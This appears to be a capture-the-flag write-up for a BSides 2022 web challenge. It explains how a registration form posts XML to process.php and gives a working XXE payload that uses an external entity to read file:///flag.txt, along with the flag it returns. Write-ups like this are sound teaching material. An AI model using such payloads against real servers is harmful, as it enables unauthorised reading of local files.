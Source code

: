 ```yaml
---
title: bsides2022 – Extreme
tags: xxe
---
```


## Challenge

> The system is full, everyone. Go home. We've already registered everyone.

The provided website is a registration form (fields `Name`, `Email`, `Password`) that always returns an error: `Sorry, [Email] is already registered!` with the entered email address.

## Solution

Looking at the source code of the website, when submitting the form, the following code is run:

```js
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<root>' +
        '<name>' + $('#name').val() + '</name>' +
        '<email>' + $('#email').val() + '</email>' +
        '<password>' + $('#password').val() + '</password>' +
        '</root>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","process.php",true);
    xmlhttp.send(xml);
};
```

This composes a XML file and sends it to `process.php`. Trying that in a REST client like [Insomnia](https://insomnia.rest), we see that all fields but `email` are ignored.

We can then construct a custom XML file that tries to load an other file on disk and includes that as the email address (because it then gets sent back to us):

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
<email>&xxe;</email>
</root>
```

This is called a [XXE (XML external entity attack)](https://en.wikipedia.org/wiki/XML_external_entity_attack).

And voilà, we get our flag:

```
Sorry, flag{bad_XML_ext3rnal_entiti3s} is already registered!
```

